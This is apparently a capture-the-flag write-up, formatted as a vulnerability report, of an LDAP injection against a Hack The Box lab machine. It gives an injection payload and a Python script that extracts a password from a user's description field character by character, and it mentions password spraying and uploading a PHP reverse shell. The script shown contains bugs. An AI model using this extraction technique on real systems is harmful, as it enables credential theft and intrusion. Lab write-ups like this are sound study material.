





# id

* class injection
* lorem

# title

LDAP Injection

# description

Similar to SQL or OS injection, LDAP injection use the protocol syntax into a text form (or similar) to
retrieve data stored, commonly, in Active Directory enviroment. This could be really usefull for attackers
who don't have valid credentials to enumerate usernames, password, descriptions and other LDAP field. In 
Active Directory we can read every data inside LDAP by design if we have credentials but with this vulnerability 
in play threat can circumnavigate this requirement. It become more dangerous with public facing services where 
non-authenticated actors could interact freely.


**Context**

The context is inside the first part of **Analysis** box, thanks to a nmap scan I was able to identify the presence
of the AD domain called *analysis.htb* and the public machine was the Domain Controller (*dc-analysis.htb*) with a public webapp on port 80.
With some basic enumeration/fuzzing I found the endpoint **/users** and, more in depth, **/users/list.php**. Both located into the subdomain **internal.analysis.htb**
My intuition drove me to add some parameters until the **?name=** worked properly, with the "*" character I got a table with a username
as output. Here I was 100% sure that LDAP injection attack vector was present (pretty obvious because the same fields in the table are the ones within the AD user catalog) {!REF:1:ANALYSIS:issue.md:issue11.png!}. 
After exploitation I was able to login in the website backend leveraging my unautenticated situation and move on until foothold thanks to unsafe File Upload 
that permits PHP reverse shell to be loaded server-side.


# evidence

## internal.analysis.htb/users/list.php?name=*

The user I get on this website endpoint was **technician**, using **ASREP-roasting** (*impacket-GetNPUsers* tool) I was able to check if was
a valid user inside the AD domain or not, luckly this was the case {!REF:1:ANALYSIS:issue.md:issue12.png!}. At first I tought was SQL because the "*" works the same with both LDAP and SQL
but it requir a few tries to understand was LDAP for sure. I had to go AFK and review back LDAP syntax, it required 5/10 minutes and the attack flow
looks clear enough to move on. The server side will just add a parenthesis and doesn't sanitize in any way, changing the parameter with `*)(description=*`
returned the same output, we can enumerate the description of the user **technician** with adding characters before the last "*". I tried manually the first
character to be sure the attack could work and after reciving the output with `*)(description=9*` I know the description start with the character "9".
The next step is obvious, we need to automate this process in order tofind the full string (is not uncommon to see plaintext passwords inside the "description" field
because the lack of knowledge about who can see what in Active Directory). This is the python script :

```
import string
import request

finish = false
keys = string.ascii_letters + "#$%&'()+,-./:;<->?@[\\]^_{|}*"
url = 'http://internal.analysis.htb/users/list.php?name='
payload = ''
result = ''

while not finish:
	for i in keys:
		print(f'\r{result}{i}', end="")
		payload = result + i
		attack = url + f"*)(description={payload}*"
		resp = requests.get(attack)
		if "technician" in resp.text:
			result = result + i
			break
	finish = False


print(result)
```

The results after firing the script is "97NTtl*4QP96Bv", this password is not valid for Active Directory Domain but works for the 
backend login form (located at **/employees/login.php**). Here we can upload (and then review) file indiscriminately {!REF:1:ANALYSIS:issue.md:issue13.png!}, like a PHP reverse shell that
allowed me to get foothold on the Domain Controller {!REF:1:ANALYSIS:issue.md:issue14.png!}.

EXTRA : Before login inside the backend I performed password spraying with the usernames found inside and the password retrieved from the script. The user "cwilliams" used the same
pasword which allowed RPC access (but somehow not WinRM). {!REF:1:ANALYSIS:issue.md:issue15.png!}
      

**SSVC Decision**

* **Exploitation = PoC**, because *"private evidence of exploitation is tested but not shared"* is true thanks to the costum python script and is a well know attack
* **Automable = Yes**, the steps 1 to 4 of the kill-chain are fully automable
* **Technical Impact = Partial**, we retrieved just a specific field of the LDAP records about a single user. Exploiting this doesn't automatically gives you full controll of the vulnerable component
* **Mission & Well-Being = High**, the component is directly connected with the client mission (remember this machine is a domain controller)
* **Decision = Attend**, the sum of the previous choices


# affected assets

* internal.analysis.htb (port 80)

# severity

Attend
SSVCv2/E:P/A:Y/T:P/P:E/B:M/M:H/D:A

# recommendations

* Using LDAP in this tasks is uneccesary risk (especially for a webapp), find alternatives to avoid to make the webapp directly linked with LDAP data also take care of similar solutions inside your environment
* Regardless the origin of data implement sanitization of peculiar character (")" for instance) to avoid crafted payload to be injected
* Since the upload form needs to send a file directly to the SoC (and PHP file should be allowed) there is no need to stored in the webserver. Moreover favor private channel rather than backend form to sen this type of files
* Don't use the description field for hardcoded password and avoid password reuse inside your company. The whole password policy needs to be re-designed

# references

* [My full walkthrough of Analysis machine](https://github.com/alstephh/This_Is_Just_A_Hobby/tree/e42a866bb781fb896d6b9c03a33185e192a317b8/MACHINES/HTB/Analysis)

# images

* 
* 
* 
* 
* 
